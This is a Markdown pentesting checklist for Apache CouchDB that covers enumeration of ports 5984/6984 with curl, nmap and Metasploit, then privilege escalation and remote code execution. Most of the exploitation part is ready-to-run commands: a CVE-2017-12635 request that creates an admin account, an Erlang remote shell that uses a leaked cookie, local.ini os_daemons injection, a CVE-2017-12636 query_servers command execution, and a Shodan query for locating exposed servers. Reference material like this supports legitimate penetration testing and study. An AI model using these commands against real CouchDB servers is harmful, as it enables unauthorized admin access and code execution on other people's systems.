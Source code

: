# CouchDB Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating CouchDB (ports 5984/6984), I realistically expect to find:

- [ ] Banner with CouchDB version
- [ ] Publicly accessible REST API endpoints
- [ ] List of all databases (`/_all_dbs`)
- [ ] Unprotected documents (including credentials)
- [ ] Potential admin misconfigurations or CVEs (e.g., CVE-2017-12635)
- [ ] Erlang cookie for cluster RCE pivot
- [ ] Possible local.ini manipulation for code execution

---

## ✅ CouchDB Pentest Checklist

- [ ] **Banner Grabbing**
    - Quickly confirm CouchDB and version.
    ```
    curl http://<IP>:5984/
    ```
    - Expected responses:
        ```
        {"couchdb":"Welcome","version":"2.0.0",...}
        {"error":"unauthorized","reason":"Authentication required."}
        ```

---

- [ ] **Automatic Enumeration with Nmap**
    - Discover databases and stats (where possible).
    ```
    nmap -sV --script couchdb-databases,couchdb-stats -p 5984 <IP>
    ```
    - Metasploit scanner:
    ```
    msf> use auxiliary/scanner/couchdb/couchdb_enum
    ```

---

- [ ] **Manual Endpoint Enumeration**
    - Explore CouchDB REST API:
    ```
    curl http://<IP>:5984/_all_dbs
    curl http://<IP>:5984/_active_tasks
    curl http://<IP>:5984/_membership
    curl http://<IP>:5984/_up
    ```
    - For authenticated access (if needed):
    ```
    curl http://user:pass@<IP>:5984/_all_dbs
    ```

---

- [ ] **Enumerate Databases & Documents**
    - **List Databases**
    ```
    curl -X GET http://<IP>:5984/_all_dbs
    ```
    - **Database Info**
    ```
    curl -X GET http://<IP>:5984/<database>
    ```
    - **List Documents in DB**
    ```
    curl -X GET http://<IP>:5984/<database>/_all_docs
    ```
    - **Read Individual Document**
    ```
    curl -X GET http://<IP>:5984/<database>/<document_id>
    ```

---

- [ ] **Common Endpoints to Try**
    - Info & stats:
    ```
    /_active_tasks
    /_cluster_setup
    /_membership
    /_node/_local/_stats
    /_uuids
    /_up
    ```
    - Use GET with or without authentication:
    ```
    curl http://<IP>:5984/_up
    curl http://<IP>:5984/_uuids
    ```

---

## ✅ Privilege Escalation CVEs

- [ ] **CVE-2017-12635**: Create admin user (abusing JSON parser quirk)
    ```
    curl -X PUT http://<IP>:5984/_users/org.couchdb.user:hacktricks \
    -H "Content-Type: application/json" \
    -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}'
    ```
    - ✅ Result: New admin user `hacktricks:hacktricks`

---

## ✅ Exploiting Erlang Cookie for RCE

⭐ If Erlang cookie is leaked (e.g. from CouchDB process list):

- [ ] **Use Erlang Shell for Remote Commands**
    ```bash
    erl -setcookie <COOKIE> -name attacker@<YourIP> -remsh couchdb@<TargetIP>
    ```
    - In Erlang prompt:
    ```erlang
    os:cmd("id").
    ```
- [ ] Related port: **4369** (EPMD)
    - See: [Pentesting Erlang Port Mapper Daemon (epmd)](4369-pentesting-erlang-port-mapper-daemon-epmd)

---

## ✅ Config File Manipulation for RCE

- [ ] **Write to local.ini (requires write permissions)**
    - Add OS daemon to execute commands:
    ```bash
    curl -X PUT 'http://user:pass@localhost:5984/_node/_local/_config/cors/origins' \
    -d "payload\n\n[os_daemons]\ndaemon = /bin/bash -c 'touch /tmp/pwned'"
    ```
    - Killing CouchDB will auto-restart with new daemon.

---

- [ ] **CVE-2018-8007**
    - Abuse CORS origin injection to write new section to local.ini.
    - Exploit requires **write permissions** to local.ini.

---

- [ ] **CVE-2017-12636**
    - Abuse query_servers section to run OS commands.
    - Example (requires local.ini writable):
    ```bash
    curl -X PUT 'http://user:pass@localhost:5984/_node/_local/_config/query_servers/cmd' \
    -d '"/bin/bash -c whoami > /tmp/out"'
    ```

---

## ✅ Shodan Search

- [ ] Discover exposed CouchDB instances.
    ```
    port:5984 couchdb
    ```

---

## ✅ References & Further Reading

- [CouchDB API Documentation](https://docs.couchdb.org/en/latest/api/index.html)
- [Bitvijays Pentesting CouchDB](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
- [0xdf HTB Canape Walkthrough](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution)
- [LZone CouchDB Cheat Sheet](https://lzone.de/cheat-sheet/CouchDB)

---

## ✅ Notes & Tips

- CouchDB often exposes REST API on 5984 (HTTP) or 6984 (HTTPS)
- Default setup can allow anonymous reads of `_all_dbs`
- Auth can be bypassed if old CVEs are present
- Cluster setups can leak Erlang cookie (pivot to RCE)
- Always check CouchDB version for known vulnerabilities
